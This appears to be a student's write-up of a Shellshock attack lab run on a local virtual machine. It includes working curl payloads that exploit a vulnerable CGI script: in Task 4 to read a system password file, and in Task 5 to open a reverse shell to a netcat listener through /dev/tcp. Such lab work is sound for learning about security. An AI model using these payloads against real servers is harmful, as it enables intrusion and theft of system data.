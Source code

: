 ```yaml
---
title: Shellshock Attack Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

## Experiment

Use the following commands to define a shell function, export it into the environment, and then observe if it prints `'extra'` when calling the child shell with `/bin/bash_shellshock` or `/bin/bash`.

```shell 
$ foo='() { echo "hello world"; }; echo "extra";'
$ export $foo
```

As expected, using `/bin/bash_shellshock` leads to extra print out while it is clear in `/bin/bash`.


# Task 2

```shell
$ su
$ cp myprog.cgi /usr/lib/cgi-bin
$ sudo chmod 755 /usr/lib/cgi-bin/myprog.cgi
```

# Task3

The `Apache` creates a child process to execute `bash_shellshock` with function `exec()`, and `$$` will be replaced by `bash_shellshock` with the ID of the current process. So `strings /proc/$$/environ` will be correctly executed while parsing the HTTP request.


# Task 4

For instance, I can steal passwords of the server using
```shell
curl -A "() { echo hello;}; echo Content-type: text/plain; echo; /bin/cat /etc/password;" http://localhost/cgi-bin/myprog.cgi
```

However, because `/etc/shadow` is only readable to `root`, I cannot steal the content of the file unless the web served by `root`.

# Task 5

*Somehow, the ip address of the server and the attacker are exactly the same on the virtual machine. So instead of using ip address in the lab instruction, i use `localhost` to represent both of them.*

![the attacker's IP address](./ip_addr.png)

First, build a TCP server:

```shell
nc -lv 9090
```

*Sometimes, the process is really slow. Be patient to wait for connection built then do the following steps*

Then make use of the `shellshock` to map the server's `stdin`/`stdout` to local shell.

```shell
curl -A "() { echo hello;}; echo Content-type: text/plain; echo; echo; /bin/bash -i -> /dev/tcp/localhost/9090 0<&1 2>&1" http://localhost/cgi-bin/myprog.cgi
```

So, a reverse shell is created.

![Reverse Shell](./reverse_shell.png)

# Task 6

Reproduction of [Test 3](#Test-3) is successful while the ones of other two tasks fail.

Because the output of environment variables is done directly by the bash itself rather than passing to any caller. The behavior will not be influenced by the version of the shell.
